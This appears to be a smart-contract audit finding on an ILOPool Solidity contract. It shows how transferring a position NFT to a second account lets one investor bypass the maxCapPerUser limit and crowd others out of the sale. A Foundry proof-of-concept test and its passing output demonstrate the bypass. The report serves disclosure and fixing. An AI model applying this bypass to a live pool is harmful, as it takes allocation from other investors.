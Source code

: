 ## [M] Transfer of `ILOPool` NFT token to different account allows for users to bypass the pool's `maxCapPerUser` invariant

<relative_path_091409:src/ILOPool.sol#L143><relative_path_091409:src/ILOPool.sol#L151>

### Description

The `ILOPool` smart contract enables investors to acquire a locked liquidity position represented as an NFT. When an investor invokes the `buy()` function, they transfer a specified amount of `RAISE TOKENS` into the pool, thereby opening a position and receiving an `ILOPool NFT token` that signifies their ownership. The protocol enforces certain invariants related to the minimum and maximum amounts of `RAISE TOKENS` required for the sale. Furthermore, there is a restriction on the maximum number of tokens each investor can contribute per sale, defined by `maxCapPerUser`.

```solidity
struct InitPoolParams {
        address uniV3Pool;
        int24 tickLower;
        int24 tickUpper;
        uint160 sqrtRatioLowerX96;
        uint160 sqrtRatioUpperX96;
        uint256 hardCap; // total amount of raise tokens
        uint256 softCap; // minimum amount of raise token needed for launch pool
        uint256 maxCapPerUser; // TODO: user tiers
        uint64 start;
        uint64 end;

        // config for vests and shares.
        // First element is always for investor
        // and will mint nft when investor buy ilo
        VestingConfig[] vestingConfigs;
    }
```

Each subsequent call to `buy()` is intended to increase the investor's raised amount for their position, ensuring that the user's total raised amount does not surpass the sale's `maxCapPerUser`. However, this restriction can be circumvented by transferring an existing `ILOPool NFT token` to another account and invoking `buy()` again. This action results in the protocol minting a new NFT (thus creating a new position) for the investor. Consequently, the `maxCapPerUser` check applies to the new position's raised amount, rather than the total amount contributed by the investor.

```solidity
// If the investor already has a position, increase the raise amount and liquidity
// Otherwise, mint a new NFT for the investor and assign vesting schedules
@> if (balanceOf(recipient) == 0) { // The user can easily set their balance to 0
   _mint(recipient, (tokenId = _nextId++));
   _positionVests[tokenId].schedule = _vestingConfigs[0].schedule;
} else {
   tokenId = tokenOfOwnerByIndex(recipient, 0);
}

Position storage _position = _positions[tokenId];
@> require(raiseAmount <= saleInfo.maxCapPerUser - _position.raiseAmount, "UC"); // User can open multiple positions bypassing the `maxCapPerUser` constraint
_position.raiseAmount += raiseAmount;
```

### Impact

This vulnerability allows an investor to:

1. Bypass the `maxCapPerUser` constraint by transferring their NFT to another account and purchasing additional tokens, thus minting new NFTs and opening new positions, which in turn breaks a core invariant.
2. Prevent other investors from participating in the pool by monopolizing the contributions and reaching the pool's `hardCap`.

### Proof of Concept

The described issue is illustrated in the below test, which can be added to the current test suit in `ILOPool.t.sol` file and run with `forge test --mt testBypassUserCap`. I've added some helper-getter functions to be able to properly log what is happening in the workflow. I have used the defined set up parameters provided with the protocol's test suite.

```solidity
function testBypassUserCap() external {
        address alice = makeAddr("alice");
        address aliceSecondAccount = makeAddr("aliceSecondAccount");
        address bob = makeAddr("bob");

        _prepareBuyFor(alice);
        _prepareBuyFor(bob);

        console.log("Pool hard cap: ", IILOPool(iloPool).getSaleInfo().hardCap / 1e18);
        console.log("Pool max cap per user: ", IILOPool(iloPool).getSaleInfo().maxCapPerUser / 1e18);

        uint256 maxUserAmount = IILOPool(iloPool).getSaleInfo().maxCapPerUser;
        (uint256 tokenIdAlice, uint128 liquidityAlice) = _buyFor(alice, SALE_START + 1, maxUserAmount); // User buys the max cap

        console.log("Total raised after first buy from Alice:", IILOPool(iloPool).getTotalRaised() / 1e18);
        assertEq(IILOPool(iloPool).balanceOf(alice), 1);

        vm.prank(alice);
        ERC721(iloPool).transferFrom(alice, aliceSecondAccount, tokenIdAlice);

        assertEq(IILOPool(iloPool).balanceOf(alice), 0);
        assertEq(IILOPool(iloPool).balanceOf(aliceSecondAccount), 1);

        (uint256 tokenIdAliceSecond, uint128 liquidityAliceSecond) = _buyFor(alice, SALE_START + 1, 30000 ether); // User buys more than the max cap

        console.log("Total raised after second buy from Alice:", IILOPool(iloPool).getTotalRaised() / 1e18);
        assertEq(IILOPool(iloPool).balanceOf(alice), 1);

        vm.expectRevert(bytes("HC"));
        (uint256 tokenIdBob, uint128 liquidityBob) = _buyFor(bob, SALE_START + 1, 20000 ether); // A new investor wants to buy a position, but reverts

        assertEq(IILOPool(iloPool).balanceOf(bob), 0);

        _writeTokenBalance(SALE_TOKEN, iloPool, 95000 * 4 ether);
        vm.warp(SALE_END + 1);

        vm.prank(address(iloManager));
        IILOPool(iloPool).launch();

        vm.warp(VEST_END_1);

        vm.startPrank(aliceSecondAccount);
        ERC721(iloPool).transferFrom(aliceSecondAccount, alice, tokenIdAlice); // Alice gets her first token back
        vm.stopPrank();

        assertEq(IILOPool(iloPool).balanceOf(alice), 2);

        vm.startPrank(alice);
        IILOPool(iloPool).claim(tokenIdAlice);
        IILOPool(iloPool).claim(tokenIdAliceSecond);
        vm.stopPrank();

        assertGt(IERC20(SALE_TOKEN).balanceOf(alice), maxUserAmount);
    }
```

```
Ran 1 test for test/ILOPool.t.sol:ILOPoolTest
[PASS] testBypassUserCap() (gas: 3339405)
Logs:
  Pool hard cap:  100000
  Pool max cap per user:  60000
  Total raised after first buy from Alice: 60000
  Total raised after second buy from Alice: 90000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.65s (395.09ms CPU time)
```



